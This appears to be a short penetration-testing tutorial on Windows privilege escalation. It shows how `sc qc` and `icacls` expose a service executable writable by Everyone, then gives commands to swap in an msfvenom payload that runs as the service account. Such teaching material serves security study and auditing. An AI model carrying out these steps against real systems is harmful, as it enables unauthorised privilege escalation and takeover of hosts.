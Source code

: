 # Insecure permissions on service executable

Suppose we have found a service with executable that has insecure permissions (eg. `C:\insecure\permissions\bin.exe`). The account is `srv_user`.

```powershell
C:\> sc qc [service_name]
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : ...
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\insecure\permissions\bin.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : [display_name]
        DEPENDENCIES       :
        SERVICE_START_NAME : srv_user
```

The following command (`icacls`) allows us to view the permissions of the executable:

```powershell
C:\>icacls C:\insecure\permissions\bin.exe
C:\insecure\permissions.exe Everyone:(I)(M)
    NT AUTHORITY\SYSTEM:(I)(F)
    BUILTIN\Administrators:(I)(F)
    BUILTIN\Users:(I)(RX)
    ...
    ...
```

The following line: `Everyone:(I)(M)` shows that the `Everyone` group has modify `(M)` permissons on the service executable. This allows us to overwrite the executable with our own payload and have it run as the privileges of the configured service user account.

The following steps can be taken to replace the original `.exe` file with our own:

1. Use the `move` command to move bin.exe to a backup location (`.exe.bkp`). The new location can have any name or extension
2. Create a executable payload with `msfvenom`, and move the created payload to the file name of the original file (`bin.exe`)
3. Provide full permission `(F)`to the Everyone group. This allows any user to execute this file.

```powershell
C:\> cd C:\insecure\permission

C:\insecure\permission> move bin.exe bin.exe.bkp
        1 file(s) moved.

C:\insecure\permission> move [path_to_created_exe_payload] bin.exe
        1 file(s) moved.

C:\insecure\permission> icacls bin.exe /grant Everyone:F
        Successfully processed 1 files.
```

When the service is started, the executable created by us will be executed.
